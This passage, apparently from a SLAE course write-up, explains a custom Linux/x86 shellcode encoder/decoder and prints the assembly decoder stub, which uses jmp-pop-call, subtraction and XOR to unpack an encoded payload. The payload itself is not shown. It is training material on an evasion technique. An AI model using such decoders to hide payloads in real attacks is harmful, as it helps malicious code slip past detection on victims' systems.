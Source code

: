 If the size of the shellcode is odd, we proceed to decoding according to the principles defined at the beginning of this document. 

```c
impair:
	mov byte bl, [edi+1]
	mov byte dl, [edi+2]
	xor bl, dl
	mov [esi], bl
```

Ci-dessous le code complet du programme.

```c
; SLAE - Assignment 4: Custom encoder/decoder shellcode (Linux/x86)
; Author: Alain Menelet 
; StudentID - SLAE-3763
; Tested on Ubuntu 16.14.03 LTS


global _start

section .text

_start:
	jmp short Shellcode					; jmp pop call technique

decoder:
	pop esi							; esi = @ of the shellcode
	push esi						; save esi on the stack
	mov edi, esi						; edi = esi because we use two offset for our algo
	xor ecx,ecx						; ecx is set to 0
	mul ecx							; edx, eax are set to 0
	
	mov cl, 0x17						; set the length of the shellcode
	
	
_:	
	xor eax, eax						; set eax, ebx, ecx to 0 each turn during the loop
	xor ebx, ebx
	xor edx, edx

	mov byte al, [edi]					; set al with the first byte of the shellcode
	cmp al, 0xff						; al == 0xFF ? 
	jz impair						; if the shellcode len is odd we jump to label impair

	mov byte dl, [edi+1]					; set dl with the second byte of the shellcode
	sub dl, al						; we substract dl with al
	mov byte bl, [edi+2]					; set bl with the third byte of the shellcode
	sub bl, al						; we substract bl with al
	xor dl, bl						; xor dl and bl
	mov [esi], dl						; then we put dl and bl decoded
	mov [esi+1], bl


	inc esi							; because we use esi and edi as offset, we need to increment them
	inc esi
	inc edi
	inc edi
	inc edi

	loop _							; loop while ecx > 0
	jmp short final
	
```